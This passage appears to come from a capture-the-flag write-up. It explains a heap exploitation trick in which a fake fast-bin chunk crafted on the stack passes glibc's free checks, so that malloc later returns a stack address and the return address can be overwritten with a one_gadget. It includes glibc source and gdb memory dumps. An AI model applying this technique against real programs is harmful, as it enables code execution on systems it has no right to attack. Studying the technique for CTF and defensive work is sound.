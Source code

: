 Woooot?! `0x7fffffffe480` got placed in its corresponding fast bin list! How? Well, the fake heap chunk isn't crafted that way
by coincidence. When free-ing a fast chunk, `_int_free_` does the following checks:


```c
  if ((unsigned long)(size) <= (unsigned long)(get_max_fast ())

#if TRIM_FASTBINS
      /*
	If TRIM_FASTBINS set, don't place chunks
	bordering top into fastbins
      */
      && (chunk_at_offset(p, size) != av->top)
#endif
      ) {

    if (__builtin_expect (chunksize_nomask (chunk_at_offset (p, size))
			  <= 2 * SIZE_SZ, 0)
	|| __builtin_expect (chunksize (chunk_at_offset (p, size))
			     >= av->system_mem, 0))
      {
```

In other words, it will make sure that the chunk **after** the one currently being free'd has a size **less than** `system_mem`
and **greater than** 0x10.

```
buf --> 0x7fffffffe480:	0x0000000000006f6e	0x0000000000000021 <-- chunk size
        0x7fffffffe490:	0x0000000000000000	0x00007fffffffe490 <-- fake heap ptr
        0x7fffffffe4a0:	0x0000000000000000	0x0000000000001234 <-- next size
        0x7fffffffe4b0:	0x0000000000400e20	0x00007ffff7a2d830
        
gdb-peda$ p main_arena.system_mem 
$4 = 0x21000
gdb-peda$ p 0x7fffffffe480 + 0x20
$5 = 0x7fffffffe4a0
gdb-peda$ x/2gx 0x7fffffffe4a0
0x7fffffffe4a0:	0x0000000000000000	0x0000000000001234
```

As you can see from above, both checks have been bypassed. Now, if the next allocation is of size **0x20**, `0x7fffffffe490`
will be returned back to us and since `read` reads in **0x30** bytes, we will be able to overwrite the return address with 
[one_gadget](https://github.com/david942j/one_gadget)! All we have to do is make `strdup` call `malloc` with a size of less than or equal
to **0x18** (`malloc` aligns the chunks on 16-byte boundaries because of its header metadata).

```
Before:

gdb-peda$ x/10gx 0x7fffffffe480
0x7fffffffe480:	0x0000000a006b656b	0x0000000000000021
0x7fffffffe490:	0x00000000006b656b	0x00007fffffffe490
0x7fffffffe4a0:	0x0000000000000000	0x0000000000001234
0x7fffffffe4b0:	0x0000000000400e20	0x00007ffff7a2d830 <-- return address
gdb-peda$ x 0x00007ffff7a2d830
0x7ffff7a2d830 <__libc_start_main+240>:	0x31000197f9e8c789
```
